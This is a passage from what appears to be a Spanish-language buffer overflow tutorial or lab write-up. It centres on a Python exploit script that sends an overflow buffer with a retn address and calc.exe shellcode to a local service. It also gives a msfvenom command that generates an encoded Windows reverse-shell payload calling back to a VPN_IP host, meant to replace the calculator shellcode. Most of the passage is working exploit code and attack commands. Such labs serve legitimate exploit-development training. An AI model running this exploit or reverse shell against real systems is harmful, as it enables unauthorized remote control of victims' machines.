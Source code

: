 ip = "127.0.0.1"
port = 31337


# Windows\x86 - Null-Free WinExec Calc.exe Shellcode (195 bytes)
shellcode_calc = '\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2\x52\xff\xd0'

#badchars 0x00 0x0a

# 0x080414c3 (retn)

prefix = ""
offset = 0
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = ""
payload = "\x41" * 142
payload += retn
payload += shellcode_calc
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
Vamos a meter también la shellcode de la calculadora y así probaremos si todo está funcionando correctamente.

Reinciamos el programa esperamos a que se ejecute y lanzamos nuestro script

Si habéis seguido todos los pasos bien debería abrirse una calculadora.

Ahora faltaría pasar el script a una Linux o una Kali, meterle una reverse shell, poner la ip de la máquina y deberíamos poder entrar en el ordenador.

# Creando la reverse shell con msfvenom

Con este comando crearemos la reverse.

```msfvenom -p windows/shell_reverse_tcp LHOST=VPN_IP LPORT=4444 -b "\x00\x0A" -f c -e x86/shikata_ga_nai```

![c60a5169e63be7c6d6a7deca0032b9af](https://user-images.githubusercontent.com/107114264/173076412-c4a48f8c-069e-4fc8-a2ba-da42cb2c7a53.png)

Vamos a introducir esta shell en nuestro script, donde antes estaba la de la calculadora.

![ab498e6480b7e5b33d678285d4c403c7](https://user-images.githubusercontent.com/107114264/173077272-8f2cf942-2b3f-4be4-835e-b201c2f6288d.png)
```